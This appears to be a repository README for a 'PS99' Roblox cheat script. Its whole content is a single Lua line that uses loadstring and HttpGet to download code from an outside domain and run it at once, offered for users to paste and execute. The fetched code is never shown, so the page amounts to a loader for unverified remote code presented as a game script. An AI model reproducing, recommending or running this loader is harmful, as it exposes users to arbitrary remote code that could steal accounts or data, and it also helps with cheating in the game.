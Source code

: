 # PS99-Script-


loadstring(game:HttpGet("https://egorikusa.space/c068929fb182b7b61cb0b83b.lua", true))()

